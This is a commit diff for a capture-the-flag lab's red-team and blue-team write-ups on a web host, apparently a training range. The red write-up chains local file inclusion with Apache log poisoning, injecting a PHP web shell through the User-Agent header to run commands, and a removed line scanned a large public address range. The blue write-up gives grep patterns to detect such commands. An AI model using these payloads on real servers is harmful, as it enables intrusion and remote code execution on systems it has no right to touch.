

Update M1 writeups and screenshots

diff --git a/R3-OpShadowgrid/machines/M1-nova-web/solve_red.md b/R3-OpShadowgrid/machines/M1-nova-web/solve_red.md
@@ -58,7 +58,7 @@ curl -sS --get --data-urlencode 'page=/etc/apache2/sites-available/000-default.c
 The `CustomLog` line identifies `/var/log/novatech_access.log`. Now read that file through the same LFI:
 
 ```bash
-curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' "http://10.0.2.15/view.php" | grep -E 'HTTP/1.1|view.php' | tail -n 5
+curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' "http://10.0.2.15/view.php" | grep -E '10\.0\.2\.15 - -' | tail -n 5
 ```
 
 ![Apache access log through LFI](screenshots/m1_red_04_read_log.png)
@@ -72,7 +72,7 @@ You'll see Apache access log entries. This is the file we'll poison.
 Inject PHP code into the log via a crafted User-Agent:
 
 ```bash
-curl -sS -o /dev/null -A '<?php system($_GET["cmd"]); ?>' "http://10.0.2.15/" && echo 'User-Agent payload logged'
+curl -sS -o /dev/null -A $'<?php system($_GET[\x27cmd\x27]); ?>' "http://10.0.2.15/" && echo 'User-Agent payload logged'
 ```
 
 ![Log poisoning payload sent](screenshots/m1_red_05_poison_valid.png)
@@ -99,7 +99,7 @@ curl -sS --get --data-urlencode 'page=/var/log/novatech_access.log' --data-urlen
 
 ![M1 flag read through RCE](screenshots/m1_red_07_flag.png)
 
-On this capture host, the access log contains a historical malformed PHP User-Agent entry, so the two log-include commands return HTTP 500 instead of producing `uid=...` and the flag. Rotate/reset the access log on a clean M1 deployment before replaying Step 5; the command syntax above is the corrected form.
+This clean replay uses the syntax-safe payload above, so the log include executes as `www-data` and the flag command returns successfully. If an older lab log contains malformed PHP User-Agent entries, rotate or reset that log before replaying the sequence.
 
 ---
 
@@ -120,16 +120,24 @@ This optional reverse-shell command was not executed in this session because no 
 
 ```bash
 cat /var/www/html/secret/hint.txt
-# → Scan 11.0.0.0/8 on port 21 for FTP server
-nmap -p 21 --open 11.0.0.0/8 --min-rate 2000
 ```
 
-The hint file was verified locally; the capture below shows that content. The route check documents why the DMZ scan could not be completed from this terminal.
+The hint file was verified locally; it identifies FTP on port 21 in the internal DMZ.
 
 ![M1 hint](screenshots/m1_red_08_hint_local.png)
 
+For this single-host deployment, scan the verified local address:
+
 ```bash
-ip route get 11.0.0.5
+nmap -n -p 21 --open 10.0.2.15 --reason
+```
+
+![M2 FTP service check](screenshots/m1_red_10_m2_scan.png)
+
+For a separate multi-host range, replace `10.0.2.15` with the verified M2 DMZ address before scanning.
+
+```bash
+ip route get 10.0.2.15
 ```
 
 ![DMZ route check](screenshots/m1_red_09_dmz_route.png)

diff --git a/R3-OpShadowgrid/machines/M1-nova-web/solve_blue.md b/R3-OpShadowgrid/machines/M1-nova-web/solve_blue.md
@@ -41,7 +41,7 @@ log poisoning indicator.
 ### 3. RCE Command Execution
 
 ```bash
-grep -E "cmd=(id|whoami|cat|ls|bash|nc|cat\\+)" /var/log/novatech_access.log | tail -n 8
+grep -E "cmd=(id|whoami|cat|ls|bash|nc|cat\+)" /var/log/novatech_access.log | tail -n 8
 ```
 
 ![RCE commands in the access log](screenshots/m1_blue_03_rce_log.png)
@@ -63,11 +63,7 @@ grep -n -E "page=.*(passwd|novatech_access|apache2)|cmd=" /var/log/novatech_acce
 
 If auditd is deployed:
 ```bash
-if command -v ausearch >/dev/null 2>&1; then
-    ausearch -c "bash" --start today | grep "uid=33"   # uid 33 = www-data
-else
-    echo "ausearch not installed; auditd validation unavailable on this host"
-fi
+if command -v ausearch >/dev/null 2>&1; then ausearch -c "bash" --start today | grep "uid=33"; else echo "ausearch not installed; auditd validation unavailable on this host"; fi
 ```
 
 ![Auditd availability check](screenshots/m1_blue_05_audit_check.png)
